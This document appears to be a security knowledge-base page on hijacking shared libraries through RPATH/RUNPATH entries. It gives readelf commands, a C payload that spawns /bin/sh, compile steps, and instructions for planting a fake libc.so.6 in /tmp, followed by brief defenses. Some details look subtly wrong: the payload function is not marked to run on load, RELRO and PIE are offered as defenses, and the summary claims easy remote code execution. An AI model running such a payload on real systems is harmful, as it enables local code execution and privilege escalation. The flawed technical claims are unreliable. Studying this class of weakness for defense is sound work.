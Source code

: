 ```yaml
---
title: Library Hijacking via RPATH/RUNPATH
parent: Protection Bypass
grand_parent: pwn
great_grand_parent: Knowledge Base
nav_order: 1
---
```


# Library Hijacking via RPATH/RUNPATH

## What are RPATH and RUNPATH?

- Hardcoded search paths for shared libraries (dynamic linker uses them).
- Set during compilation with flags like:
\`\`\`
-Wl,-rpath,/some/dir
\`\`\`

---

## Why is it Dangerous?

- If an attacker can place a malicious library in a directory listed in RPATH or RUNPATH, it will be loaded **before** system libraries.
- Allows arbitrary code execution during program startup.

---

## How to Exploit?

1. **Find the RPATH or RUNPATH**:
   - Use \`readelf\`:
\`\`\`
readelf -d <binary> | grep RPATH
readelf -d <binary> | grep RUNPATH
\`\`\`

2. **Create a Malicious Library**:
   - Write your payload in C:
\`\`\`c
#include <stdio.h>
void init() {
    system("/bin/sh");
}
\`\`\`

- Compile:
\`\`\`
gcc -shared -fPIC -o libmylib.so mylib.c
\`\`\`

3. **Place Library in RPATH Directory**:
   - If RPATH includes \`/tmp\`, put \`libmylib.so\` there.

4. **Run the Binary**:
   - It will load your malicious library automatically.

---

## Example Attack

1. Binary has RPATH \`/tmp\`.
2. You create \`libc.so.6\` with a malicious \`init\` function.
3. When the binary runs, it uses your fake \`libc.so.6\`.

---

## Defense

- Avoid setting RPATH or RUNPATH.
- Use only secure and absolute paths.
- Use full RELRO, PIE, and enable hardened linking flags.

---

## Summary

- **RPATH**/**RUNPATH** vulnerabilities can lead to preloading attacker-controlled shared libraries.
- Easy route for remote/local code execution if writable directory is included.
- Always check for these fields with \`readelf\` during binary analysis.
